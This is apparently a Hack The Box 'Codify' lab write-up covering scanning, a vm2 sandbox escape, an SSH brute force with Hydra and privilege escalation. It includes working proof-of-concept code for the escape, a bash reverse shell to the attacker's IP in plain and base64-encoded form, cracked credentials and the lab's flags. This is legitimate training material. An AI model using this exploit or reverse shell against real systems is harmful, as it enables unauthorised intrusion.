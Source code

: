 ```yaml
---
layout: post
title: "Hack The Box - Codify"
categories: guide
author:
- th4ntis
---
```


# Initial Scan

```nmap
sudo nmap -T4 -v 10.129.82.199
sudo nmap -T4 -Pn -p 22,80,3000 -sV -sC -v 10.129.82.199 -oA Codify
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(15).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(17).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(18).png)

# HTTP

Had to edit the host file to get the Webpage

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(16).png)

Checking out their About Us page

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(19).png)

Looking around for VM2 CVE's, found [this article on snyk](https://security.snyk.io/vuln/SNYK-JS-VM2-5537100) about RCE with VM2 after seeing a couple others. Testing the other PoC's I didn't get anywhere until I found this one. We can run commands on the host bypassing the VM.

```javascript
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("ls -al").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(20).png)

whoami shows us the `svc` user. Also looking at `/etc/passwd` we see an additional user, `joshua`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(21).png)

## BruteForce

Trying to run Hydra against the user joshua for a password

```bash
hydra -l joshua -P /usr/share/wordlists/rockyou.txt -V ssh://10.129.82.199
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(22).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(23).png)

`joshua:spongebob1`

### Obtaining shell

Working to get a shall as svc. Looking around for reverse shell, I found [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp).

```bash
bash -i >& /dev/tcp/10.10.14.53/1234 0>&1
```

Running it normally didn't work so I encoded it

```
echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash"
```

Full command

```bash
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41My8xMjM0IDA+JjE=' | base64 -d | bash").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

# Foothold

We have shell as svc

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(24).png)

Seeing what permissions we have

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(25).png)

# User Flag

After getting into shell from the SVC user, I got Joshuas password with hydra.

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(26).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(27).png)

User flag: `c53cdd4688463871ba3f4020ab6f3ccb`

# Priv Esc

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(28).png)

We have run the note of "User joshua may run the following commands on codify: (root) /opt/scripts/mysql-backup.sh" So looking at the shell file

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(29).png)

Running that as root as get

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(30).png)

Get [PSPY](https://github.com/DominicBreuker/pspy) Initiate another SSH session. Get pspy64 onto the target machine, run it, then run the `/opt/scripts/mysql-backup.sh` script

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(31).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(32).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(33).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(34).png)

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(35).png)

Root pass: `kljh12k3jhaskjh12kjh3`

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(36).png)

Root flag: `4e43f866588b3b3433196af3cef8b768`
